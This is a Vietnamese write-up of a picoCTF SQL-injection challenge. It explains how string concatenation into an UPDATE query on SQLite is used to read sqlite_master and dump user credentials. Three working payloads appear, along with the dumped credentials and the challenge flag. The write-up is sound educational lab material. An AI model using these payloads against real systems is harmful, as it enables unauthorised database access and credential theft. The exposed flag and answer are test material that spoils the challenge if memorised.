




https://play.picoctf.org/practice/challenge/108?category=1&difficulty=2&page=4
- sau khi đăng kí (bob:1234) và đăng nhập dẫn ta đến 1 trang donate tiền cho company của họ

- bài đã hint get error, sqlite nên ta không vòng vo trực tiếp chèn kí tự khác thường để xem respone , tôi sẽ chèn thử dấu nháy ‘ và tất nhiên ta phải dùng burp suite để bypass client-side control

- vậy là thực sự đoạn input này được đưa vào truy vấn (có cả username=’bob’) lúc này tôi thử dùng ordery by để xác định số cột trả về (‘ ORDER BY 1--)

- dựa vào lỗi trả về ta có thể thấy Lệnh UPDATE không hỗ trợ cấu trúc ORDER BY để dò cột như SELECT tuy vẫn có thể dùng nếu ta cấu hình đặc biệt nhưng dùng trong trường hợp này thì ORDER BY cũng kh thể exploit được như UNION SELECT vậy nên ta cần chuyển sang cách khai thác khác
- trước hết dựa vào lỗi trả về tôi xác định được backend dùng truy vấn kiểu :
UPDATE users 
SET amount = '...' 
WHERE username = '<username>' AND password = '<password>';

- ban đầu tôi nghĩ lab này là SQL blind vì ta có thể dump tên bảng dựa vào sqlite_master và brute-force ra tên cột cũng như là giá trị bên trong vì trong truy vấn có gọi đến username và password
- nhưng vấn đề lớn là mỗi request cần 1 capcha random mới nên việc brute-force sẽ trở lên rất khó khăn
- nhưng để ý kỹ ta có thể thấy giá trị ta donate được hiển thị lại tức là amount
- lợi dụng điểm này ta có thể dùng nối chuỗi để nối lệnh SQL khiến nó trả ra thông tin cho phần amount
- vì là nhập giá trị trên burpsuite nên ta cần dùng /**/ thay thế space để kh phá vỡ input
- payload 1 : dump tên bảng
 ` 
'||(select/**/tbl_name/**/FROM/**/sqlite_master/**/WHERE/**/type='table')||'
`

- vậy là ta đã dump được tên bảng là startup_users
- payload 2 : dump tên cột trong bảng qua sql
`
'||(SELECT/**/sql/**/FROM/**/sqlite_master/**/WHERE/**/type='table'/**/AND/**/tbl_name='startup_users')||'
`
- ta thu được CREATE TABLE startup_users (nameuser text, wordpass text, money int)
- payload 3: dump giá trị
 ` 
'||(SELECT/**/GROUP_CONCAT(nameuser||':'||wordpass,/**/'|')/**/FROM/**/startup_users)||'
`
- thu được
$admin:password|ron:not_the_flag_db1d1c41|veronica:not_the_flag_de19f38f|brick:not_the_flag_6d8cfc3e|brian:not_the_flag_f96b8d32|champ:not_the_flag_3e25274b|the_real_flag:picoCTF{1_c4nn0t_s33_y0u_58183fce}|qwwe:qwe
- Flag :  picoCTF{1_c4nn0t_s33_y0u_58183fce}
